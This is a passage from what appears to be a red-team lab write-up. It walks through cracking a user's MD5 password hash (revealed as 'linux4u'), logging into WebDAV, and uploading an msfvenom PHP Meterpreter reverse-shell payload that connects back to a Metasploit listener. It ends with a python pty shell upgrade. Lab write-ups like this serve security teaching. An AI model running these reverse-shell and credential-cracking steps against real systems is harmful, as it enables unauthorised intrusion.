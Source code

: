 ## Password Hash Found
Once I gain access, I click on the file *connect_to_corp_server* to look at the contents. The file contains the step-by-step instructions to connect to server and Ryan's password *hash*.

![alt text](https://github.com/rochoabanuelos/Red-Team-vs-Blue-Team-Analysis/blob/main/RED/11.PNG)
![alt text](https://github.com/rochoabanuelos/Red-Team-vs-Blue-Team-Analysis/blob/main/RED/12.PNG)

I take the md5 hash and crack it using a free online tool named *Crackstation*. 
Password is *linux4u*

![alt text](https://github.com/rochoabanuelos/Red-Team-vs-Blue-Team-Analysis/blob/main/RED/13.PNG)

## Logging into WebDav with Ryan's credentials.
Once I gained access, I notice another file of interest called *passwd.dav*.

![alt text](https://github.com/rochoabanuelos/Red-Team-vs-Blue-Team-Analysis/blob/main/RED/29.png)

## Creating a Reverse Shell
In order to create a reverse shell, I utilized msfvenom to create a payload php file containing a shell script.

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`

![alt text](https://github.com/rochoabanuelos/Red-Team-vs-Blue-Team-Analysis/blob/main/RED/15.PNG)

I then dragged and dropped the shell.php file into the *network:///dav://192.168.1.105/webdav* using the file manager.

![alt text](https://github.com/rochoabanuelos/Red-Team-vs-Blue-Team-Analysis/blob/main/RED/14.PNG)

## Setting up a listener using Metasploit
`msfconsole`
`use multi/handler`

![alt text](https://github.com/rochoabanuelos/Red-Team-vs-Blue-Team-Analysis/blob/main/RED/17.PNG)

I then go back into the webserver, as Ryan, and click on the *shell.php* file to initiate the connection witht he listener.

![alt text](https://github.com/rochoabanuelos/Red-Team-vs-Blue-Team-Analysis/blob/main/RED/18.PNG)

I switch back to Metasploit to confirm connection and that a Meterpreter session has been opened.

![alt text](https://github.com/rochoabanuelos/Red-Team-vs-Blue-Team-Analysis/blob/main/RED/19.PNG)

## Creating Interactive Shell
`python -c 'import pty; pty.spawn("/bin/bash")`
